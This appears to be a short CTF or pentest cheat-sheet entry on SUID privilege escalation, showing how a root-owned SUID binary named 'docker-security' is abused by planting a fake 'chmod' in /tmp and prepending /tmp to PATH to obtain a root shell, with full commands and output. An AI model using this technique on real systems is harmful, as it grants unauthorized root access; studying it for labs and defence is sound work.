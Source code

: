 # docker

## docker-security suid privilege escalation

> SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

1. find suid permissions

        $ find / -perm -u=s -type f 2>/dev/null

2. overwrite used binary by bash

        $ ls -l /usr/local/bin/docker-security
        -rwsr-xr-x 1 root mortal 16720 Feb 15 20:00 /usr/local/bin/docker-security
        $ cd /usr/local/bin/
        $ echo "/bin/bash" > /tmp/chmod
        $ chmod 777 /tmp/chmod
        $ export PATH=/tmp:$PATH
        $ echo $PATH
        /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
        $ ./docker-security
        # id
        uid=0(root) gid=0(root) groups=0(root)
